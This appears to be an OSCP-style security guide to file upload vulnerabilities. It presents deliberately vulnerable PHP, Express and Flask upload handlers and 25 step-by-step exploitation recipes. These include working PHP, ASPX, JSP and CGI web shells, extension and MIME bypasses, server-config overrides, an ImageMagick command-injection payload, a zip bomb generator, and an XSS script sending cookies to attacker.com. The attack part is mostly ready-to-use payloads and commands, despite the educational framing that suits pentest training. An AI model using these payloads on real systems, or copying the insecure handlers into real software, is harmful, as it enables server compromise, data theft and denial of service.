


## Introduction & Educational Notice

> {: .prompt-warning }
> **EDUCATIONAL PURPOSE ONLY:** This guide is strictly for authorized penetration testing, OSCP lab practice, and defensive security research. Unauthorized exploitation of file upload functionality violates computer fraud laws globally. Always operate within written scope, use isolated environments, and prioritize defensive knowledge transfer.

File upload vulnerabilities occur when applications accept user-supplied files without proper validation, sanitization, or execution controls. When misconfigured, they provide direct paths to Remote Code Execution (RCE), Cross-Site Scripting (XSS), Denial of Service (DoS), or full system compromise. This guide covers root-cause code, 20+ exploitation scenarios, and structured bypass workflows.

---

## Architecture & Attack Surface



---

## Root Cause: Vulnerable Code Examples

### 1. PHP — Unrestricted Upload & Execution
```php
<?php
// VULNERABLE: No extension, MIME, or content validation
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['file'])) {
    $target = 'uploads/' . basename($_FILES['file']['name']);
    move_uploaded_file($_FILES['file']['tmp_name'], $target);
    echo "Uploaded: $target";
}
?>
```
**Root Misconfiguration:** Direct use of `$_FILES['file']['name']`, no allowlist, uploads to web-accessible directory.

### 2. Node.js (Express + Multer) — MIME Trust & Original Name
```javascript
const multer = require('multer');
const upload = multer({ dest: 'uploads/' });

app.post('/upload', upload.single('file'), (req, res) => {
  // VULNERABLE: Trusts client MIME, keeps original filename
  res.json({ path: `/uploads/${req.file.originalname}` });
});
app.use('/uploads', express.static('uploads')); // Executes scripts!
```
**Root Misconfiguration:** `originalname` preserved, static serving enables execution, no server-side validation.

### 3. Python (Flask) — Weak Extension Check
```python
@app.route('/upload', methods=['POST'])
def upload():
    f = request.files['file']
    ext = f.filename.rsplit('.', 1)[1].lower()
    # VULNERABLE: Blocklist approach, easily bypassed
    if ext in ['php', 'asp', 'jsp']:
        return "Blocked", 403
    f.save(f'uploads/{f.filename}')
    return "OK", 200
```
**Root Misconfiguration:** Blocklist instead of allowlist, no content verification, predictable storage path.

---

## 20+ File Upload Exploitation Scenarios (Step-by-Step)

### 1. Basic PHP Web Shell (.php)
1- Create `shell.php` with content: `<?php system($_GET['c']); ?>`
2- Upload via form or `curl -F "file=@shell.php" https://target.com/upload`
3- Access: `https://target.com/uploads/shell.php?c=id`
4- Verify output shows `uid=33(www-data)`

### 2. Double Extension Bypass (.php.jpg)
1- Rename payload: `mv shell.php shell.php.jpg`
2- Upload file
3- Access: `https://target.com/uploads/shell.php.jpg?c=whoami`
4- Server parses leftmost executable extension → RCE

### 3. Case Sensitivity Bypass (.PHP / .pHp)
1- Create `shell.PHP` or `shell.pHp`
2- Upload file
3- Access via browser
4- Windows/IIS or misconfigured Linux treats case-insensitively → Execution

### 4. Null Byte Injection (.php%00.jpg)
1- Create payload: `shell.php%00.jpg`
2- Intercept upload in Burp, modify filename to `shell.php%00.jpg`
3- Forward request
4- Older PHP truncates at `%00` → Saves as `shell.php` → Execute

### 5. MIME Type Spoofing
1- Create `shell.php` with PHP code
2- Intercept upload, change `Content-Type: application/x-php` → `Content-Type: image/jpeg`
3- Forward request
4- Server trusts header → Saves & executes

### 6. Magic Bytes Bypass (GIF89a + PHP)
1- Run: `echo -ne 'GIF89a' > shell.jpg && echo '<?php system($_GET["c"]); ?>' >> shell.jpg`
2- Upload `shell.jpg`
3- Server reads first 6 bytes → Validates as GIF → Saves
4- Access as `.jpg` → PHP executes

### 7. ASPX Web Shell (.aspx)
1- Create `shell.aspx`: `<%@ Page Language="C#" %><% Response.Write(new System.IO.StreamReader(Request.QueryString["f"]).ReadToEnd()); %>`
2- Upload to IIS server
3- Access: `https://target.com/uploads/shell.aspx?f=C:\Windows\win.ini`
4- Verify file contents returned

### 8. JSP Upload (.jsp)
1- Create `shell.jsp`: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
2- Upload to Tomcat/JBoss
3- Access: `https://target.com/uploads/shell.jsp?cmd=cat+/etc/passwd`
4- Verify command output

### 9. CGI/Perl Upload (.cgi / .pl)
1- Create `shell.cgi`: `#!/usr/bin/perl\nprint "Content-type: text/html\n\n"; system($ENV{'QUERY_STRING'});`
2- Make executable: `chmod +x shell.cgi`
3- Upload to CGI-enabled directory
4- Access: `https://target.com/cgi-bin/shell.cgi?id`

### 10. ZIP Slip (Path Traversal via Archive)
1- Create malicious zip: `zip -r exploit.zip ../../../var/www/html/shell.php`
2- Upload `exploit.zip`
3- Trigger extraction via app feature
4- Verify `shell.php` lands in webroot → Execute

### 11. ZIP Bomb (DoS)
1- Generate: `python3 -c "import zipfile; z=zipfile.ZipFile('bomb.zip','w'); z.writestr('a'*10**6, '0'*10**9); z.close()"`
2- Upload `bomb.zip`
3- Trigger extraction
4- Server exhausts disk/CPU → DoS

### 12. SVG XSS Upload
1- Create `xss.svg`: `<svg onload="alert(document.domain)"><rect width="100%" height="100%"/></svg>`
2- Upload as avatar/image
3- View profile page
4- Browser renders SVG → XSS triggers

### 13. HTML/JS Upload (Reflected XSS)
1- Create `payload.html`: `<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>`
2- Upload & access directly
3- Browser executes → Cookie exfiltration

### 14. .htaccess Override (Apache)
1- Create `.htaccess`: `AddType application/x-httpd-php .jpg`
2- Upload `.htaccess` to uploads dir
3- Upload `shell.jpg` with PHP code
4- Access `shell.jpg` → Executes as PHP

### 15. .user.ini Override (PHP-FPM)
1- Create `.user.ini`: `auto_prepend_file = shell.jpg`
2- Upload to directory with PHP files
3- Upload `shell.jpg` with PHP payload
4- Any PHP request in dir auto-includes shell → RCE

### 16. web.config Override (IIS)
1- Create `web.config`: `<configuration><system.webServer><handlers><add name="PHP" path="*.jpg" verb="*" modules="FastCgiModule" scriptProcessor="C:\php\php-cgi.exe" resourceType="Unspecified" /></handlers></system.webServer></configuration>`
2- Upload to IIS uploads dir
3- Upload `shell.jpg` with PHP
4- IIS executes `.jpg` as PHP

### 17. ImageMagick RCE (CVE-2016-3714)
1- Create `exploit.mvg`: `push graphic-context\nviewbox 0 0 640 480\nfill 'url(https://example.com/x"|id > /tmp/pwned")'\npop graphic-context`
2- Upload as image
3- Server processes with `convert`/`identify`
4- Command executes → Check `/tmp/pwned`

### 18. FFmpeg SSRF/RCE
1- Create `exploit.avi` with HLS playlist pointing to `http://attacker.com/playlist.m3u8`
2- Upload for thumbnail generation
3- FFmpeg fetches external resource → SSRF or RCE via `concat` protocol

### 19. PDF JavaScript/SSRF
1- Create PDF with embedded JS: `app.alert("XSS")` or external link
2- Upload to PDF viewer
3- Viewer renders → JS executes or SSRF triggers

### 20. EXE/Binary Upload & Execution
1- Upload `nc.exe` or `reverse.exe`
2- If app allows execution or user downloads & runs → RCE
3- Chain with LFI or command injection for execution

### 21. Race Condition Upload
1- Upload `shell.php`
2- Immediately request `https://target.com/uploads/shell.php?c=id` in loop
3- Server saves → executes → deletes/renames
4- Window of execution grants shell

### 22. Client-Side Only Validation Bypass
1- Disable JS in browser or intercept with Burp
2- Modify `filename` and `Content-Type`
3- Forward request
4- Server accepts → Upload succeeds

### 23. Extension Blocklist Bypass (.phtml / .php5 / .phar)
1- Create `shell.phtml` or `shell.phar`
2- Upload
3- Server blocklist misses alternative extensions → Execution

### 24. Nginx Misconfiguration (.php/ bypass)
1- Upload `shell.jpg`
2- Access: `https://target.com/uploads/shell.jpg/.php`
3- Nginx passes to PHP-FPM due to `cgi.fix_pathinfo=1` → Execution

### 25. Polyglot File (Valid Image + Executable)
1- Use `exiftool -Comment='<?php system($_GET["c"]); ?>' image.jpg`
2- Upload `image.jpg`
3- Passes image validation → Executes PHP when accessed

---

## Bypass Decision Tree



---

## Execution & Verification Steps (Universal)

1- Prepare payload matching target environment (PHP/ASPX/JSP/CGI)
2- Bypass validation using appropriate technique from scenarios 1-25
3- Upload via form, API, or `curl -F "file=@payload.ext" https://target.com/upload`
4- Note server response path (e.g., `/uploads/payload.ext`)
5- Access file via browser or `curl https://target.com/uploads/payload.ext?c=id`
6- Verify command output or reverse shell connection
7- Document exact bypass method, payload, and execution path for reporting

---

## References

- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [PortSwigger — File Upload Labs](https://portswigger.net/web-security/file-upload)
- [HackTricks — File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [PayloadsAllTheThings — Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [ImageTragick — CVE-2016-3714](https://imagetragick.com/)
- [Zip Slip Vulnerability — Snyk](https://snyk.io/research/zip-slip-vulnerability)
- [Nginx cgi.fix_pathinfo Misconfiguration](https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutorials-check-your-configuration/)

---

*Last updated: February 25, 2024*
*Author: Security Researcher & OSCP Instructor*
*License: MIT*

> {: .prompt-warning }
> **LEGAL & ETHICAL NOTICE:** This content is strictly for educational purposes, authorized penetration testing, and OSCP lab practice. Unauthorized exploitation of file upload functionality violates computer fraud and abuse laws globally. Always obtain written permission, operate within defined scope, and prioritize defensive security improvements.
